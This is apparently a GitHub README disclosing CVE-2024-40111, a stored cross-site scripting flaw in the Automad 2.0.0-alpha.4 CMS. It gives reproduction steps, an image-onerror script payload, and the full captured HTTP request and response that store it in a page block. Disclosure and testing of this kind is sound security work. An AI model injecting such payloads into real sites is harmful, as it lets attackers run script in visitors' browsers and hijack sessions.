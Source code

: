 # CVE-2024-40111: Stored Cross-Site Scripting (XSS) in Automad 2.0.0-alpha.4

## Exploit Details

- **Exploit Title**: Stored Cross-Site Scripting (XSS) in Automad 2.0.0-alpha.4
- **Date**: 2024-06-20
- **Exploit Author**: Jerry Thomas (w3bn00b3r)
- **Vendor Homepage**: [Automad](https://automad.org)
- **Software Link**: [Automad GitHub Repository](https://github.com/marcantondahmen/automad)
- **Category**: Web Application [Flat File CMS]
- **Version**: 2.0.0-alpha.4
- **Tested on**: Docker version 26.1.4, Debian GNU/Linux 11 (bullseye)

## Description

A persistent (stored) cross-site scripting (XSS) vulnerability has been identified in Automad 2.0.0-alpha.4. This vulnerability allows attackers to inject malicious JavaScript code into the template body, which is stored within the CMS. The injected code is executed in the browser of any user visiting the affected page, potentially leading to session hijacking, data theft, and other malicious activities.

## Proof-of-Concept

### Steps to Reproduce

1. **Login**: Log in as an Admin and navigate to the endpoint `http://localhost/dashboard/home`.
2. **Edit Welcome Page**: Edit the default Welcome page.
3. **Navigate to Content Tab**: Go to `http://localhost/dashboard/page?url=%2F&section=text` and edit the block named ***`Main`***.
4. **Inject Payload**: Enter the following XSS payload:

    ```html
    <img src=x onerror=alert(1)>
    ```

### Request

```http
POST /_api/page/data HTTP/1.1
Host: localhost
Content-Length: 1822
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.5195.102 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryzHmXQBdtZsTYQYCv
Accept: */*
Origin: http://localhost
Referer: http://localhost/dashboard/page?url=%2F&section=text
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: Automad-8c069df52082beee3c95ca17836fb8e2=d6ef49301b4eb159fbcb392e5137f6cb
Connection: close

------WebKitFormBoundaryzHmXQBdtZsTYQYCv
Content-Disposition: form-data; name="__csrf__"

49d68bc08cca715368404d03c6f45257b3c0514c7cdf695b3e23b0a4476a4ac1
------WebKitFormBoundaryzHmXQBdtZsTYQYCv
Content-Disposition: form-data; name="__json__"

{"data":{"title":"Welcome","+hero":{"blocks":[{"id":"KodzL-KvSZcRyOjlQDYW9Md2rGNtOUph","type":"paragraph","data":{"text":"Testing for xss","large":false},"tunes":{"layout":null,"spacing":{"top":"","right":"","bottom":"","left":""},"className":"","id":""}},{"id":"bO_fxLKL1LLlgtKCSV_wp2sJQkXAsda8","type":"paragraph","data":{"text":"<h1>XSS identified by Jerry</h1>","large":false},"tunes":{"layout":null,"spacing":{"top":"","right":"","bottom":"","left":""},"className":"","id":""}}],"automadVersion":"2.0.0-alpha.4"},"+main":{"blocks":[{"id":"lD9sUJki6gn463oRwjcY_ICq5oQPYZVP","type":"paragraph","data":{"text":"You have successfully installed Automad 2.<br><br><img src=x onerror=alert(1)><br>","large":false},"tunes":{"layout":null,"spacing":{"top":"","right":"","bottom":"","left":""},"className":"","id":""}},{"id":"NR_n3XqFF94kfN0jka5XGbi_-TBEf9ot","type":"buttons","data":{"primaryText":"Visit Dashboard","primaryLink":"/dashboard","primaryStyle":{"borderWidth":"2px","borderRadius":"0.5rem","paddingVertical":"0.5rem","paddingHorizontal":"1.5rem"},"primaryOpenInNewTab":false,"secondaryText":"","secondaryLink":"","secondaryStyle":{"borderWidth":"2px","borderRadius":"0.5rem","paddingHorizontal":"1.5rem","paddingVertical":"0.5rem"},"secondaryOpenInNewTab":true,"justify":"start","gap":"1rem"},"tunes":{"layout":null,"spacing":{"top":"","right":"","bottom":"","left":""},"className":"","id":""}}],"automadVersion":"2.0.0-alpha.4"}},"theme_template":"project","dataFetchTime":"1718911139","url":"/"}
------WebKitFormBoundaryzHmXQBdtZsTYQYCv--
```

### Response

```http
HTTP/1.1 200 OK
Server: nginx/1.24.0
Date: Thu, 20 Jun 2024 19:17:35 GMT
Content-Type: application/json; charset=utf-8
Connection: close
X-Powered-By: PHP/8.3.6
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Length: 30

{"code":200,"time":1718911055}
```

5. **Trigger XSS**: The XSS payload triggers when visiting the homepage `http://localhost/`.

---

![Repo View Counter](https://profile-counter.glitch.me/CVE-2024-40111/count.svg)

